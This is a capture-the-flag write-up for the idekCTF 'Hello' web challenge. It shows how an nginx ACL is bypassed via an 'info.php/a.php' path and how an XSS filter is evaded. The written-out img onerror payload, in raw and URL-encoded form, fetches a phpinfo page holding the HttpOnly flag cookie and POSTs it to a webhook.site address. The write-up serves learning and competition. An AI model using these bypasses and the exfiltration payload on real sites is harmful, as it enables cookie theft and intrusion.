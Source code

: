 ```yaml
---
layout: post
title: idekCTF Web and OSINT Writeup
tags: [ctf, ctf writeup, ctf web, ctf misc, ctf osint, ctf geogussr]
---
```


## web/Hello

### Solution TLDR

- Bypass XSS characters filter
- Bypass nginx ACL rules for PHP

### Challenge and Solution

Relatively easy challenge, with 161 solves. I built the payload iteratively to bypass the restrictions.

Challenge goal is to get the flag set by the admin bot in the "HttpOnly" cookie. The `index.php` page is XSS-able, and and `info.php` page dumps `phpinfo()`, which shows the cookies in the request, including HttpOnly cookies.

```
location = /info.php {
    allow 127.0.0.1;
    deny all;
}

location ~ \.php$ {
    root           /usr/share/nginx/html;
    fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
    include fastcgi_params;  
    fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
}
```

However, as shown above, `nginx.conf` blocks access to `info.php`, and admin bot cannot acess it either. Referencing to [HackTricks](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass), it can be bypassed with `http://idek-hello.chal.idek.team:1337/info.php/a.php`, where nginx does not match to `location = /info.php`, instead it matches to `location ~ \.php$` and PHP FPM processes with `info.php`.

```php
function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}
```

`index.php` is XSS injectable, however it does not allow some characters. It was not able to have `</script>` closing tag, and I did not get `script` tag without closing tag or using `\` instead of `/` in the closing tag work. I used `<img>` tag with `onerror` to make the script to run (`src` attribute was necessary too).

The tag looks like this:

```html
<img src=a onerror="fetch('\\info.php\\a.php').then(r=>r.text()).then(r=>fetch('https:\\\\webhook.site\\[REDACTED]',{method:'POST',body:r}))">
```

The `/` in the URLs above are replaced with `\` to bypass the filter (`\\` because of escape. It was only escaped once in JavaScript, HTML does not use `/` escape), and it still works.

Replacing space `%20` with `%0C` to bypass filter, and the encoded payload for admin bot is below:

```
http://idek-hello.chal.idek.team:1337/?name=%3Cimg%0Csrc%3Da%0Conerror%3D%22fetch%28%27%5C%5Cinfo%2Ephp%5C%5Ca%2Ephp%27%29%2Ethen%28r%3D%3Er%2Etext%28%29%29%2Ethen%28r%3D%3Efetch%28%27https%3A%5C%5C%5C%5Cwebhook%2Esite%5C%5C%5BREDACTED%5D%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Ar%7D%29%29%22%3E%0A
```

## misc/NM~~PZ~~~ (GeoGussr-style)

TODO
